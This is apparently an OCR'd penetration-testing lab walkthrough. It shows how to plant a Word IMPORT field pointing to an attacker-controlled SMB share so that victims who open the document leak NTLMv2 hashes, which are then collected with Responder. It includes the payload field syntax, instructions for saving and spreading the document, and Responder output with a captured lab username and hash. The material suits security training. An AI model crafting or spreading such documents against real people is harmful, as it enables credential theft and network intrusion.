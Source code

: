 While Responder is typically used to poison broadcast protocols such as LLMNR, we will now
demonstrate a more interesting way of obtaining NTLMv2 challenge-responses.
Using Remote Objects in Word, we can trick a Windows machine to retrieve an image from a
remote server. This would include an authentication attempt, as the Windows machine would
automatically use Single Sign On (SSO) to try to connect to the network share to retrieve the
image.

## Step 1
Create file

## Step 2
Create a Remote Object 
By pressing Ctrl + F9 Word will create a new empty object, which you can observe in the
below screenshot (i.e. { } ).

Within the curly-brackets ( { } ) proceed to import a network path using the below syntax.

```
IMPORT "\\\\192.168.20.107\\1.jpg"
```

Once done, a nal setting has to be dened to ensure our vicitms connect to our malicious
SMB server. By right-clicking the remote object and selecting "Edit Field...", open the "Field"
window. From the right-pane's "Field options" section, make sure to check the "Data not stored
with document" check-box.
Once done, close the window by pressing the "OK" button.

## Saving and Spreading
With our malicious Word document ready, proceed to save it using the Ctrl + s key-
combination. Make sure to select "Save As" in the blue left-pane after which you can save it on
"This PC", using any name you wish.

You can now proceed to open the Word document, optionally from another Word-equiped
machine and/or user.

## Cheking Results
If you switch back to the Responder session, you will notice a multitude of collected hashes.
Do note that the below output is trimmed as Windows will insist on connecting to the server, so
we'll capture the NTLMv2 Challenge-Response multiple times.

```
__
.----.-----.-----.-----.-----.-----.--| |.-----.----.
| _| -__|__ --| _ | _ | | _ || -__| _|
|__| |_____|_____| __|_____|__|__|_____||_____|__|
|__|
NBT-NS, LLMNR & MDNS Responder 3.0.0.0
Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CTRL-C
/!\ Warning: files/AccessDenied.html: file not found
/!\ Warning: files/BindShell.exe: file not found
[+] Poisoners:
LLMNR [ON]
NBT-NS [ON]
DNS/MDNS [ON]
[+] Servers:
HTTP server [ON]
HTTPS server [ON]
WPAD proxy [OFF]
Auth proxy [ON]
SMB server [ON]
Kerberos server [ON]
SQL server [ON]
FTP server [ON]
IMAP server [ON]
POP3 server [ON]
SMTP server [ON]
DNS server [ON]
LDAP server [ON]
RDP server [ON]
[+] HTTP Options:
Always serving EXE [OFF]
Serving EXE [OFF]
Serving HTML [OFF]
Upstream Proxy [OFF]
[+] Poisoning Options:
Analyze Mode [OFF]
Force WPAD auth [ON]
Force Basic Auth [OFF]
Force LM downgrade [OFF]
Fingerprint hosts [OFF]
[+] Generic Options:
Responder NIC [ens192]
Responder IP [192.168.20.107]
Challenge set [random]
Don't Respond To Names ['ISATAP']
[!] Error starting TCP server on port 80, check permissions or other servers
running.
[!] Error starting SSL server on port 443, check permissions or other servers
running.
[+] Listening for events...
[SMB] NTLMv2-SSP Client : 192.168.20.105
[SMB] NTLMv2-SSP Username : sec699-40\student_ladm
[SMB] NTLMv2-SSP Hash : student_ladm::sec699-
40:9865961408a2cff0:66140EB41145D1D72F619199864D5819:0101000000000000C0653150DE09D2
[+] Exiting...
```